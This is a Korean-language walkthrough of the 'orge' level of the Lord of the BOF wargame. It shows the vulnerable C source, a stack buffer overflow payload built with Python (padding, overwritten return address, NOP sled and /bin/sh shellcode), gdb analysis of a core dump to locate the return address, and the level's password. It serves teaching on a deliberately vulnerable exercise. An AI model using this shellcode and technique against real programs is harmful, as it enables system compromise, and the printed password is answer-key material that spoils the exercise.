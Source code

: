 # dakrelf -> orge

``` C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

전 단계와 달라진 점은 argv[0]의 길이를 확인하는 함수가 추가된 것이다. argv[0] 즉, 실행 파일명(ex, ./orge, /tmp/dirorge/orge, ~/orge 등등)을 말한다.
원래의 실행 파일명은 ./orge이므로 '/'를 72개로 늘려서 payload를 작성해 주면 된다.

```
mkdir /tmp/dirorge
cd /tmp/dirorge
cp ~/orge .
```
위의 명령어로 orge파일을 tmp 디렉토리에 옮긴 후 시작하였다.

```
[darkelf@localhost dirorge]$ `python -c 'print "."+"/"*72+"orge"'` a
stack is still your friend.
```
위의 코드를 통해 argv[0]의 길이를 체크하는 조건문은 통과한 것을 알 수 있다. 뒤에 a는 argc를 체크하는 인자를 통과하기 위해서 작성하였다.
이제 저 코드와 argv[1], argv[2]를 이용해 payload를 작성해보자.

```
[darkelf@localhost dirorge]$ `python -c 'print "."+"/"*72+"orge"'` `python -c 'print "A"*44+"\xbf\xbf\xbf\xbf "+"\x90"*10000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿¿¿¿
Segmentation fault (core dumped)
[darkelf@localhost dirorge]$ gdb -q -c core
Core was generated by `.////////////////////////////////////////////////////////////////////////orge A'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
```
argv[2]의 주소 (RET이 될 부분, NOP의 주소 중 한 곳을 고르면 됨)를 찾기 위해 core 파일을 확인해 봤다.

```
(gdb) x/80x $esp
(생략)
0xbffff7d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7e0:     0xbfbfbfbf      0x90909000      0x90909090      0x90909090
0xbffff7f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff800:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff810:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff820:     0x90909090      0x90909090      0x90909090      0x90909090
```

RET을 0xbffff7f0로 사용하였다.

payload = argv[0]의 파일 명 수정한 코드 + argv[1](buf[40] + SFP[4] + RET[4]) + argv[2] (SHELLCODE)
```
[darkelf@localhost dirorge]$ `python -c 'print "."+"/"*72+"orge"'` `python -c 'print "A"*44+"\xf0\xf7\xff\xbf "+"\x90"*10000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAð÷ÿ¿
bash$ my-pass
euid = 507
timewalker
```





